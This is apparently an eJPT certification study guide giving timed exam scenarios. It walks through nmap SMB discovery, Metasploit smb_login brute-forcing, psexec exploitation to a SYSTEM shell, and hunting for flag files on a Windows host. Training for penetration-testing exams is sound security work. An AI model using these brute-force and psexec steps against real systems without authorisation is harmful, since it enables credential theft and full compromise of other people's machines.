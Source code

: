 ### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic SMB Credential Attack**
**Given:** Windows system with SMB service exposed
**Your Job:** Find valid credentials and gain system access
**Time Limit:** 8-10 minutes

**How to Approach:**
```bash
# Step 1: Identify SMB service (2 minutes)
nmap -p445 target_ip
nmap --script smb-protocols target_ip

# Step 2: Launch credential attack (3 minutes)
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit

# Step 3: Exploit with found credentials (3 minutes)
use exploit/windows/smb/psexec
set RHOSTS target_ip
set SMBUser [found_username]
set SMBPass [found_password]
exploit

# Step 4: Verify system access (2 minutes)
shell
whoami
# Expected: SYSTEM or Administrator level access
```

#### **Scenario 2: Flag Capture Mission**
**Given:** Meterpreter session established via SMB exploitation
**Your Job:** Navigate file system and locate flag file
**Time Limit:** 5-7 minutes

**How to Approach:**
```bash
# Step 1: Establish system shell (1 minute)
shell
cd /

# Step 2: Search for flag systematically (3 minutes)
dir
type flag.txt                    # Check root directory
cd C:\Users\Administrator\Desktop
dir *.txt                       # Check user desktop
cd C:\
dir /s flag*.txt               # Recursive search if needed

# Step 3: Capture and document flag (2 minutes)
type flag.txt
# Document flag value for submission

# Step 4: Gather additional intelligence (1 minute)  
systeminfo
net user
# Additional system information for reporting
```
